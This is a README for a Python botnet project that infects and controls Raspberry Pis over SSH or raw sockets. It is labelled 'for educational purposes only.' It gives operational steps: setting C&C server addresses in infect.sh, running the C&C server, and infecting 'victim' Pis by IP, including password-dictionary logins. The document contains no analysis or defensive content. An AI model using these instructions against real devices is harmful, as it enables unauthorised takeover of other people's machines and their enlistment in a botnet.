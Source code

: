 # 60467_raspPiBotnet
Botnet malware designed to infect and control a set of raspberry PIs. For educational purposes only.
This project includes 2 approaches to implimenting a botnet using python: Via SSH and via raw sockets.

-- Instructions: --

SSH:

  python3 cnc.py [IP of client 1], [IP of client 2], ...

Once connected, run commands as needed.


----

Sockets:
1. Modify the port and IP of infect.sh to reflect the port and IP of your remote C&C server


  vim infect.sh
  
  CNC_IP=1.1.1.1
  
  CNC_PORT=11111
  
  
2. On the remote C&C server, run the server code:


 admin@server$ python3 server.py [IP to bind to] [Port to bind to] 
  
  
3. Infect the victims. Run one of the following commands (choose the one that fits your use case). The malware will copy to the victims, and the client code will begin executing on the target PI.

  ./infect.sh -t [victim IP]
  
  ./infect.sh -l [Alternate login] -p [Alternate password] -t [victim IP]
  
  ./infect.sh -L [Alternate login file] -P [Alternate password dictionary] -t [victim IP]
